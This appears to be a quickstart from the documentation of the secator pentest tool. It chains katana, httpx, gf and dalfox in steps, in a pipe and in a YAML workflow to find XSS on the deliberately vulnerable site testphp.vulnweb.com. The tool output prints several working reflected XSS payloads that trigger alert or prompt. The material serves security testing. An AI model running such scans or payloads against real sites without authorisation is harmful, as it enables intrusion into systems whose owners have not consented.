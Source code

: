 # 5 minutes secator session

This quickstart will be focused on using `secator` to find vulnerabilities on the website [http://testphp.vulnweb.com](http://testphp.vulnweb.com).

We will start by using simple `secator` tasks, and then show how to use workflows to considerably speed up the session.

***

## Using tasks

<details>

<summary>Step 1: Run <code>katana</code> on the root URL</summary>

We'll start by using a crawler to find some URLs that could be interesting to exploit for vulnerabiliites. We most often use `katana`, a tool by ProjectDiscovery.

We'll save our results to a `.txt` file:

<pre class="language-bash"><code class="lang-bash"><strong>secator x katana http://testphp.vulnweb.com -o txt
</strong>                         __            
   ________  _________ _/ /_____  _____
  / ___/ _ \/ ___/ __ `/ __/ __ \/ ___/
 (__  /  __/ /__/ /_/ / /_/ /_/ / /    
/____/\___/\___/\__,_/\__/\____/_/     v0.0.1

                    freelabz.com

[13:34:53] katana -silent -jc -js-crawl -known-files all -u http://testphp.vulnweb.com -json -concurrency 50                                                                                                                                _base.py:614
🔗 http://testphp.vulnweb.com [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/high [404] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/index.php
🔗 http://testphp.vulnweb.com/style.css [200] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/privacy.php [404] [PHP:5.6.40, Ubuntu, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/AJAX/index.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/categories.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/cart.php [200] [PHP:5.6.40, Ubuntu, DreamWeaver, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/artists.php [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/hpp/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/disclaimer.php [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/login.php [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Templates/main_dynamic_template.dwt.php [200] [Ubuntu, Nginx:1.19.0, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/guestbook.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/userinfo.php
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/color-printer/3/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/comment.php?aid=3 [200] [Ubuntu, Nginx:1.19.0, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/search.php?test=query [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/web-camera-a4tech/2/ [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/Templates/high
🔗 http://testphp.vulnweb.com/comment.php?aid=2
🔗 http://testphp.vulnweb.com/artists.php?artist=1 [200] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/hpp/?pp=12 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/signup.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/comment.php?aid=1
🔗 http://testphp.vulnweb.com/AJAX/showxml.php [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/AJAX/styles.css [200] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/artists.php?artist=3 [200] [PHP:5.6.40, Ubuntu, DreamWeaver, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=3 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=2 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/showimage.php?file= [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu]
🔗 http://testphp.vulnweb.com/artists.php?artist=2 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=4
🔗 http://testphp.vulnweb.com/listproducts.php?cat=1 [200] [Nginx:1.19.0, PHP:5.6.40, Ubuntu, DreamWeaver]
🗄 Saved TXT reports to 
   • /home/vagrant/.secator/reports/default/tasks/task_katana_target_2023_07_04-01_33_13_152782_PM.txt
   • /home/vagrant/.secator/reports/default/tasks/task_katana_url_2023_07_04-01_33_13_152782_PM.txt
</code></pre>

`katana` found some pretty interesting results, including some PHP files that could potentially be vulnerable.

</details>

<details>

<summary>Step 2: Run <code>httpx</code> on found URLs to alive URLs</summary>

Crawlers usually find URLs from HTML response bodies, which means we have no ideas if those URLs will actually respond to HTTP requests or not.

In order to filter only the URLs that will give a valid HTTP status code, we can use `httpx` on the previous results (txt file).\
\
We'll add some rate limiting (`-rl`) in order to respect the server and not DDoS it for no reason.&#x20;

We want to keep only some HTTP codes (`-mc`) for instance `200`, `301`, and `500` in case we have there are errors we can take advantage of:&#x20;

```bash
secator x httpx /home/vagrant/.secator/reports/default/tasks/task_katana_target_2023_07_04-01_33_13_152782_PM.txt -rl 10 -mc 200,301,500

                         __            
   ________  _________ _/ /_____  _____
  / ___/ _ \/ ___/ __ `/ __/ __ \/ ___/
 (__  /  __/ /__/ /_/ / /_/ /_/ / /    
/____/\___/\___/\__,_/\__/\____/_/     v0.0.1

                    freelabz.com

[13:19:35] httpx -silent -td -asn -cdn -l /tmp/httpx_2023_07_04-01_19_35_686343_PM.txt -json -threads 50 -match-code 200,301,500                                                                                                            _base.py:614
🔗 http://testphp.vulnweb.com/showimage.php?file [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [image/jpeg] [196]
🔗 http://testphp.vulnweb.com/hpp [200] [HTTP Parameter Pollution Example] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [203]
🔗 http://testphp.vulnweb.com/cart.php [200] [you cart] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4903]
🔗 http://testphp.vulnweb.com/categories.php [200] [picture categories] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6115]
🔗 http://testphp.vulnweb.com/artists.php?artist=3 [200] [artists] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6193]
🔗 http://testphp.vulnweb.com/comment.php?aid=3 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/comment.php?aid=2 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/AJAX/showxml.php [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [11]
🔗 http://testphp.vulnweb.com/style.css [200] [nginx/1.19.0] [Nginx:1.19.0] [text/css] [5482]
🔗 http://testphp.vulnweb.com/artists.php?artist=1 [200] [artists] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6251]
🔗 http://testphp.vulnweb.com/Templates/main_dynamic_template.dwt.php [200] [Document titleg] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4697]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/color-printer/3 [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [313]
🔗 http://testphp.vulnweb.com/AJAX/styles.css [200] [nginx/1.19.0] [Nginx:1.19.0] [text/css] [562]
🔗 http://testphp.vulnweb.com/hpp/?pp=12 [200] [HTTP Parameter Pollution Example] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [383]
🔗 http://testphp.vulnweb.com/login.php [200] [login page] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5523]
🔗 http://testphp.vulnweb.com/guestbook.php [200] [guestbook] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5390]
🔗 http://testphp.vulnweb.com/signup.php [200] [signup] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6033]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1 [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [319]
🔗 http://testphp.vulnweb.com/search.php?test=query [200] [search] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4732]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=3 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4699]
🔗 http://testphp.vulnweb.com/AJAX/index.php [200] [ajax test] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4236]
🔗 http://testphp.vulnweb.com/disclaimer.php [200] [disclaimer] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5524]
🔗 http://testphp.vulnweb.com/artists.php?artist=2 [200] [artists] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [6193]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=4 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4699]
🔗 http://testphp.vulnweb.com/artists.php [200] [artists] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5328]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=2 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [5311]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [975]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=1 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [7880]
🔗 http://testphp.vulnweb.com/comment.php?aid=1 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/web-camera-a4tech/2 [200] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [279]
🔗 http://testphp.vulnweb.com [200] [Home of Acunetix Art] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4958]
🔗 http://testphp.vulnweb.com/index.php [200] [Home of Acunetix Art] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4958]
🗄 Saved TXT reports to 
   • /home/vagrant/.secator/reports/default/tasks/task_httpx_target_2023_07_04-01_34_22_081275_PM.txt
   • /home/vagrant/.secator/reports/default/tasks/task_httpx_url_2023_07_04-01_34_22_081275_PM.txt
```

</details>

<details>

<summary>Step 3: Run <code>gf</code> on found URLs</summary>

`gf` allows to run patterns on URLs, we can use it to quickly detect potential interesting URLs including XSS, LFIs, SSRFs, RCEs, Interesting params, or Insecure Direct Object references.\
Let's hunt for potential XSS:

<pre><code>secator x gf --pattern xss /home/vagrant/.secator/reports/default/tasks/task_httpx_target_2023_07_04-01_34_22_081275_PM.tx
<strong>🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=1 []
</strong>🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=2 []
🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=3 []
🏷️ [xss] http://testphp.vulnweb.com/hpp/?pp=12 []
</code></pre>

Mmmh, it seems like we might have some interesting XSS targets here. Let's use `dalfox` to find out !

</details>

<details>

<summary>Step 4: Run <code>dalfox</code> on potential XSS links</summary>

`dalfox` is a pretty thorough XSS checker, let's run it on the targets we've identified:

```
secator x dalfox http://testphp.vulnweb.com/hpp/?pp=12

                         __            
   ________  _________ _/ /_____  _____
  / ___/ _ \/ ___/ __ `/ __/ __ \/ ___/
 (__  /  __/ /__/ /_/ / /_/ /_/ / /    
/____/\___/\___/\__,_/\__/\____/_/     v0.0.1

                    freelabz.com

[13:41:28] dalfox --silence url 'http://testphp.vulnweb.com/hpp/?pp=12' --format json --worker 50                                                                                                                                           _base.py:614
🚨 [Verified XSS] [high] http://testphp.vulnweb.com/hpp/ [CWE-83] [inject_type:inATTR-double(3)-URL, poc_type:plain, method:GET, 
data:http://testphp.vulnweb.com/hpp/?pp=12%22id%3Dx+tabindex%3D1+style%3D%22display%3Ablock%3Btransition%3Aoutline+1s%3B%22+ontransitionend%3Dalert.apply%28null%2C1%29+class%3Ddalfox+, param:pp, payload:"id=x tabindex=1 
style="display:block;transition:outline 1s;" ontransitionend=alert.apply(null,1) class=dalfox , evidence:4 line:  ms.php?p=valid&pp=12"id=x tabindex=1 style="display:block;transition:outline 1s;, message_id:1103, message_str:Triggered XSS Payload 
(found DOM Object): pp="id=x tabindex=1 style="display:block;transition:outline 1s;" ontransitionend=alert.apply(null,1) class=dalfox ]
```

**We have found a Verified XSS !**

We could verify this XSS in our browser to validate it, but `dalfox` already gave us evidence that it works...

</details>

***

## Using a task pipe

The previous set of tasks is an example of how we usually find vulnerabilities in HTTP URLs.

In that sense, the pentester work can become really repetitive and boring and a set of tasks like this one can be automated.

Here is a `secator` pipe that can automate the previous 4 steps. Here we use the `-raw` flag to directly input URLs to the next task instead of saving results to a text file and re-using that text file in later steps:

```
secator x katana http://testphp.vulnweb.com -raw | secator x httpx -raw | secator x gf --pattern xss -fmt '{match}' | secator x dalfox
```

<details>

<summary>Command output</summary>

```
[13:50:29] katana -silent -jc -js-crawl -known-files all -u http://testphp.vulnweb.com -json -concurrency 50                                                                                                                                _base.py:614
[13:50:43] httpx -silent -td -asn -cdn -l /tmp/httpx_2023_07_04-01_50_43_044323_PM.txt -json -threads 50                                                                                                                                    _base.py:614
[13:50:49] cat /tmp/gf_2023_07_04-01_50_49_787397_PM.txt | gf xss                                                                                                                                                                           _base.py:614
[13:50:49] dalfox --silence file /tmp/dalfox_2023_07_04-01_50_49_855768_PM.txt --format json --worker 50                                                                                                                                    _base.py:614
🚨 [Verified XSS] [high] http://testphp.vulnweb.com/hpp/ [CWE-83] [inject_type:inATTR-double(3)-URL, poc_type:plain, method:GET, 
data:http://testphp.vulnweb.com/hpp/?pp=12%22%26%2339%3B%3E%3Caudio+controls+ondurationchange%3Dprompt%281%29+id%3Ddalfox%3E%3Csource+src%3D1.mp3+type%3Daudio%2Fmpeg%3E%3C%2Faudio%3E, param:pp, payload:"&#39;><audio controls 
ondurationchange=prompt(1) id=dalfox><source src=1.mp3 type=audio/mpeg></audio>, evidence:4 line:  ms.php?p=valid&pp=12"&#39;><audio controls ondurationchange=prompt(1) id=dalfox>, message_id:1862, message_str:Triggered XSS Payload (found DOM 
Object): pp="&#39;><audio controls ondurationchange=prompt(1) id=dalfox><source src=1.mp3 type=audio/mpeg></audio>]
```

</details>

This is already a good time improvement over the previous lengthy set of tasks.

***

## Using a workflow

Task pipes are good to quickly find things, but workflows are much better to repeat the same set of tasks over separate sets of targets, with the same input options for all tasks, while filtering final results and reacting to live results, etc...

Here is a `secator` workflow corresponding to the previous set of tasks:

{% code title="xss_finder.yaml" %}
```yaml
type: workflow
name: xss_finder
description: XSS Finder
tasks:
  katana:
    description: Crawling root URL
  httpx:
    description: Finding alive URLs
    targets_:
      - type: url
        field: url
        condition: item.status_code == 0
  gf:
    description: Identifying XSS
    targets_:
      - url.url
  dalfox:
    description: Verifying XSS
    targets_:
      - type: tag
        field: match
        condition: item.name == 'xss'
```
{% endcode %}

And here is the workflow run using `secator`:

```
secator w xss_finder.yaml http://testphp.vulnweb.com
```

<details>

<summary>Command output</summary>

```
                         __            
   ________  _________ _/ /_____  _____
  / ___/ _ \/ ___/ __ `/ __/ __ \/ ___/
 (__  /  __/ /__/ /_/ / /_/ /_/ / /    
/____/\___/\___/\__,_/\__/\____/_/     v0.0.1

                    freelabz.com

╭────── Workflow xss_finder ──────╮
│ 📜 Description: XSS Finder      │
│ 👷 Workspace: default           │
│ 🍐 Targets:                     │
│    • http://testphp.vulnweb.com │
│ 📌 Options:                     │
│    • threads: 50                │
│    • headless: False            │
│    • system_chrome: False       │
│    • follow_redirect: False     │
│    • debug_resp: False          │
│ ✉  Exporters:                   │
│    • json                       │
│    • csv                        │
╰─────────────────────────────────╯
[14:03:31] 🎉 Workflow xss_finder starting...                                                                                                                                                                                               _base.py:614

🔧 Crawling root URL ...
[14:03:32] katana -silent -jc -js-crawl -known-files all -u http://testphp.vulnweb.com -json -concurrency 50                                                                                                                                _base.py:614
🔗 http://testphp.vulnweb.com [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/high [404] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/ [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/index.php
🔗 http://testphp.vulnweb.com/style.css [200] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/guestbook.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/Templates/main_dynamic_template.dwt.php [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/AJAX/index.php [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/login.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/cart.php [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/privacy.php [404] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/hpp/ [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/categories.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/artists.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/disclaimer.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/userinfo.php
🔗 http://testphp.vulnweb.com/listproducts.php?cat=3
🔗 http://testphp.vulnweb.com/comment.php?aid=1 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=4 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/comment.php?aid=3
🔗 http://testphp.vulnweb.com/artists.php?artist=2 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/comment.php?aid=2
🔗 http://testphp.vulnweb.com/signup.php [200] [PHP:5.6.40, DreamWeaver, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/artists.php?artist=3 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/artists.php?artist=1 [200] [Ubuntu, PHP:5.6.40, DreamWeaver, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=1 [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40, DreamWeaver]
🔗 http://testphp.vulnweb.com/AJAX/showxml.php [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/showimage.php?file= [200] [Nginx:1.19.0, Ubuntu, PHP:5.6.40]
🔗 http://testphp.vulnweb.com/hpp/?pp=12 [200] [Ubuntu, PHP:5.6.40, Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/AJAX/styles.css [200] [Nginx:1.19.0]
🔗 http://testphp.vulnweb.com/Templates/high
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/network-attached-storage-dlink/1/ [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/web-camera-a4tech/2/ [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=2 [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu, DreamWeaver]
🔗 http://testphp.vulnweb.com/Mod_Rewrite_Shop/Details/color-printer/3/ [200] [PHP:5.6.40, Nginx:1.19.0, Ubuntu]
🔗 http://testphp.vulnweb.com/search.php?test=query [200] [Nginx:1.19.0, Ubuntu, DreamWeaver, PHP:5.6.40]

🔧 Finding alive URLs ...
[14:03:45] httpx -silent -td -asn -cdn -l /tmp/httpx_2023_07_04-02_03_45_807367_PM.txt -json -threads 50                                                                                                                                    _base.py:614
🔗 http://testphp.vulnweb.com/Templates/high [404] [404 Not Found] [nginx/1.19.0] [Nginx:1.19.0] [text/html] [153]
🔗 http://testphp.vulnweb.com/index.php [200] [Home of Acunetix Art] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4958]
🔗 http://testphp.vulnweb.com/comment.php?aid=2 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/userinfo.php [302] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [14]
🔗 http://testphp.vulnweb.com/comment.php?aid=3 [200] [comment on artist] [nginx/1.19.0] [Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [1252]
🔗 http://testphp.vulnweb.com/listproducts.php?cat=3 [200] [pictures] [nginx/1.19.0] [DreamWeaver, Nginx:1.19.0, PHP:5.6.40, Ubuntu] [text/html] [4699]

🔧 Identifying XSS ...
[14:03:52] cat /tmp/gf_2023_07_04-02_03_52_398624_PM.txt | gf xss                                                                                                                                                                           _base.py:614
🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=1 []
🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=2 []
🏷️ [xss] http://testphp.vulnweb.com/comment.php?aid=3 []
🏷️ [xss] http://testphp.vulnweb.com/hpp/?pp=12 []

🔧 Verifying XSS ...
[14:03:54] dalfox --silence file /tmp/dalfox_2023_07_04-02_03_52_411553_PM.txt --format json --worker 50                                                                                                                                    _base.py:614
🚨 [Verified XSS] [high] http://testphp.vulnweb.com/hpp/ [CWE-83] [inject_type:inATTR-double(3)-URL, poc_type:plain, method:GET, 
data:http://testphp.vulnweb.com/hpp/?pp=12%22onmouseenter%3Dprompt.call%28null%2C1%29+class%3Ddalfox+, param:pp, payload:"onmouseenter=prompt.call(null,1) class=dalfox , evidence:4 line:  ms.php?p=valid&pp=12"onmouseenter=prompt.call(null,1) 
class=dalfox ">link2</a><b, message_id:1540, message_str:Triggered XSS Payload (found DOM Object): pp="onmouseenter=prompt.call(null,1) class=dalfox ]


[14:04:20] 🎉 Workflow xss_finder succeeded in 48 seconds.                                                                                                                                                                                  _base.py:614
🗄 Saved JSON report to /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_2023_07_04-02_04_20_160856_PM.json
🗄 Saved CSV reports to 
   • /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_target_2023_07_04-02_04_20_160856_PM.csv
   • /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_url_2023_07_04-02_04_20_160856_PM.csv
   • /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_tag_2023_07_04-02_04_20_160856_PM.csv
   • /home/vagrant/.secator/reports/default/workflows/workflow_xss_finder_vulnerability_2023_07_04-02_04_20_160856_PM.csv

```

</details>

***

